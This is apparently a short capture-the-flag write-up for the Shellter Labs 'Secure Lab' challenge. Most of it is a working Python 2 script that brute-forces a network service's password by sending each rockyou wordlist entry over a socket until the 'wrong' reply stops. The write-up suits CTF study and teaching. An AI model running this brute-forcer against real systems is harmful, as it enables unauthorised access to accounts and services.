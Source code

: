 # Christmas Challenges - Secure Lab

Challenge proposed in: https://shellterlabs.com/en/questions/christmas-challenge-2017/secure-lab/  
In this challenge our work is discovery the system's password. I wrote the following script in python to do bruteforce attack using the rockyou as wordlist and socket module. It took about half an hour to find the password.


```python
import sys
import socket 

if len(sys.argv) < 4:
    print "Usage: python2.7", sys.argv[0], "<HOST> <PORT> <WORDLIST>"
else:
    HOST = str(sys.argv[1])
    PORT = int(sys.argv[2])
    WORDLIST = open(sys.argv[3]).readlines()

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((HOST, PORT))
    
    s.send(WORDLIST[0])
    rec = s.recv(1024)

    for word in WORDLIST:
        s.send(word)
        rec = s.recv(1024)
        sys.stderr.writelines("\rPasswd : "+str(word).replace('\n','')+" -> "+str(rec).replace('\n',''))
        if "WRONG! Try Again!" not in rec:
            print "\n[+]Passwd Found : "+str(word)
            break
```

See more write-ups in: https://www.youtube.com/playlist?list=PLlq-hlhs91wqtRtIgQRxmqvgqTDZn6Qhu
